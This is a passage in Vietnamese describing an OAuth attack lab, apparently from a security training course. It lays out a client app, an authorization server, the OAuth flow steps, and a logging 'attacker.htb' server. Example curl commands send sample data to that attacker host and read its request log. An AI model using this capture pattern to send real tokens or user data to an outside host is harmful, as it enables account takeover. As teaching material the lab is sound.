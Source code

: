 #### **Cấu trúc của lab:**
1. **OAuth Client**: Nền tảng đào tạo an ninh mạng giả định `academy.htb`. Tất cả các route của client nằm dưới `/client/`.
2. **OAuth Resource Server** và **Authorization Server**: Được giả lập bởi nền tảng quản lý mã nguồn `hubgit.htb`. Các route nằm dưới `/resource/` và `/authorization/`.
3. **Attacker Server**: Một server giả lập dưới tên `attacker.htb`, được sử dụng để mô phỏng các tấn công và đánh cắp dữ liệu.

### **Luồng OAuth trong lab**
- Khi người dùng truy cập `academy.htb` và chọn đăng nhập bằng tài khoản `hubgit.htb`, quy trình xác thực OAuth sẽ bắt đầu:
  1. **Authorization Request**: Yêu cầu ủy quyền được gửi đến `hubgit.htb`.
  2. **Resource Owner Authentication**: Người dùng đăng nhập vào `hubgit.htb`.
  3. **Authorization Grant**: Sau khi xác thực, `hubgit.htb` cấp mã ủy quyền và chuyển hướng lại trình duyệt đến `academy.htb`.
  4. **Access Token Request**: `academy.htb` sử dụng mã ủy quyền để yêu cầu token truy cập từ `hubgit.htb`. Yêu cầu này được thực hiện trực tiếp từ server của `academy.htb` nên không hiển thị trên proxy.
  5. **Access Token Grant**: `hubgit.htb` cấp token truy cập cho `academy.htb`.
  6. **Resource Request**: `academy.htb` sử dụng token truy cập để yêu cầu thông tin người dùng từ `hubgit.htb`.
  7. **Resource Response**: `hubgit.htb` trả về thông tin người dùng.

### **Cấu hình các thành phần trong lab**
1. **OAuth Client (academy.htb)**:
   - Địa chỉ: `/client/`
   - Cho phép người dùng đăng nhập bằng OAuth thông qua `hubgit.htb`.

2. **OAuth Resource Server và Authorization Server (hubgit.htb)**:
   - Địa chỉ: `/resource/` và `/authorization/`
   - Lưu trữ tài nguyên và xử lý yêu cầu ủy quyền.

3. **Attacker Server (attacker.htb)**:
   - Địa chỉ: `attacker.htb`
   - Ghi log tất cả các yêu cầu GET, POST, và HTTP headers. Dữ liệu log có thể truy cập qua endpoint `/log`.

**Ví dụ yêu cầu POST tới attacker.htb:**
```bash
curl -X POST --data 'param1=Hello' http://attacker.htb/?param2=World
```

**Xem log yêu cầu:**
```bash
curl http://attacker.htb/log
```

**Kết quả log:**
```
param1=Hello
param2=World
Host: attacker.htb
User-Agent: curl/7.88.1
```
